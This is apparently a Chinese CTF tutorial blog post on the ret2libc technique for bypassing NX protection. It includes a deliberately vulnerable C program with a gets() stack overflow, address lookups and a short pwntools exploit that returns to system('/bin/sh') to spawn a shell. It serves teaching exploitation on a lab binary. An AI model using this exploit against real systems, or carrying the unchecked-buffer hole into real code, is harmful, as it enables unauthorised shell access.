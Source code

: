 ```yaml
---
title: ret2libc攻击技术示例-模拟执行system函数绕过NX保护
time: 2017-08-03
tags: [CTF, pwn, stackoverflow]
layout: post
categories: posts
---
```


# 什么是ret2libc？

ret2libc即return to libc，返回到系统函数库执行的攻击方法。

当程序开启`NX`保护时，我们的shellcode无法在缓冲区中执行，但是又没有直接的可以使用的system("/bin/sh")代码片段。这时，我们就可以通过使用libc中的system函数，并模拟system函数的执行过程，将"/bin/sh"参数传入system函数并执行，从而获取shell

# ret2libc示例代码

``` c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

char *shell = "/bin/sh";
char buf2[100];

void secure(void)
{
    int secretcode, input;
    srand(time(NULL));

    secretcode = rand();
    scanf("%d", &input);
    if(input == secretcode)
        system("shell!?");
}

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf1[100];

    printf("RET2LIBC >_<\n");
    gets(buf1);

    return 0;
}
```

本节示例的漏洞程序可以从此处下载： [ret2libc1](/files/ret2libc1)

使用peda自带的checksec功能检查程序开启的保护机制，这里程序只开启了`NX`保护
``` bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
# 漏洞分析

在调用函数比如这里我们想要执行`call system`这条指令，那么cpu在调用函数的过程中会完成哪些工作呢？

1. 首先程序会将system()函数的各个参数，从右至左依次压入栈中
2. 将`call system`这条指令的地址压入栈中。（当函数执行完毕，会执行`ret`指令将该地址弹出给EIP，这样就能在执行完`call system`后继续往下执行）
3. 将system()函数的地址赋给EIP，也就是跳转到system函数开始执行

那么对应的栈空间其实如下图所示

![callsystem-stack-layout](/images/ret2libc-system-stack-layout.png)

其中`padding1`是我们定位buf首地址和返回地址之间的偏移，我们用字符填充，随后的`padding2`其实是`system("/bin/sh")`执行完的返回地址，因为我们只需要得到shell，而不用管当shell停止后会如何运行，因此这里的4字节我们可以随意填充。当然如果你要写的漂亮些，也可以将其修改为`exit()`的地址

那么我们就开始收集信息，这里的`padding1`长度我们计算后依旧是112，关于`system()`和`/bin/sh`我们也可以通过如下命令得到

``` bash
➜  ret2libc1 ROPgadget --binary ret2libc1 --string '/bin/sh'
Strings information
============================================================
0x08048720 : /bin/sh
➜  ret2libc1 objdump -dj .plt ret2libc1 | grep 'system'
08048460 <system@plt>:
```
值得注意的是，这里是`system@plt`，跟我们所知的system函数还是有所区别的，这相关于linux的延迟绑定，我们暂不作深究。

# 攻击代码

``` python
from pwn import *

bin_sh = 0x08048720
plt_system = 0x08048460

payload = 'A' * 112
payload += p32(plt_system)
payload += p32(0xdeadbeef)
payload += p32(bin_sh)

io = process('ret2libc1')
io.sendline(payload)
io.interactive()
```
